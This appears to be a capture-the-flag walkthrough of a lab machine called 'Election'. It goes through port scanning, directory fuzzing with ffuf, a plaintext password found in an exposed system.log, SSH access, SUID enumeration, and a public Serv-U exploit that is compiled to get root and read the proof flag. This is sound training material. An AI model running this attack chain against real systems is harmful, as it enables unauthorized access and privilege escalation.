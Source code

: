 ## Initial NMAP scan:

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ nmap 192.168.205.211 -T4 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-18 15:36 +0545
Nmap scan report for 192.168.205.211
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 20.12 seconds
```

## Enemurating Port 80:

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ ffuf -u http://192.168.205.211/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.205.211/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

                        [Status: 200, Size: 10918, Words: 3499, Lines: 376]
javascript              [Status: 301, Size: 323, Words: 20, Lines: 10]
election                [Status: 301, Size: 321, Words: 20, Lines: 10]
```
`/election` seems interesting, let's dig further, you can vote user from the portal, if you try to vote, you can see the request going through `/election/admin/ajax/pemilihan.php`, we can always try bruteforcing endpoints recursively:

```bash

┌──(parallels㉿V35HR4J)-[~]
└─$ ffuf -u http://192.168.205.211/election/admin/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.205.211/election/admin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

img                     [Status: 301, Size: 331, Words: 20, Lines: 10]
                        [Status: 200, Size: 8964, Words: 851, Lines: 130]
plugins                 [Status: 301, Size: 335, Words: 20, Lines: 10]
css                     [Status: 301, Size: 331, Words: 20, Lines: 10]
ajax                    [Status: 301, Size: 332, Words: 20, Lines: 10]
js                      [Status: 301, Size: 330, Words: 20, Lines: 10]
components              [Status: 301, Size: 338, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 331, Words: 20, Lines: 10]
logs                    [Status: 301, Size: 332, Words: 20, Lines: 10]
```

`/logs` seems interesting, checking it out gives us `system.log`

```bash
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
```

Trying to ssh with the credentials, we can get access as user `love`:

## Privelage Escalation:

Let's enemurate for SUID binaries:

```bash
love@election:~$ find / -perm /4000 2>/dev/null
/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U
```

since, `/usr/local/Serv-U/Serv-U` is something unique, googling about possible attack vectors a bit leads us to [this](https://www.exploit-db.com/exploits/47009) privilege escilation , let's try it out:

```bash
love@election:/tmp$ gcc exploit.c -o exp
love@election:/tmp$ ./exp
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# cat `find / -name proof.txt`
b4153718564e088ae08798956b99376e
```

# Takeaways:
- Always enemurate for SUID binaries, they are the quick wins.
- FUZZ ALL THE THINGS!!!!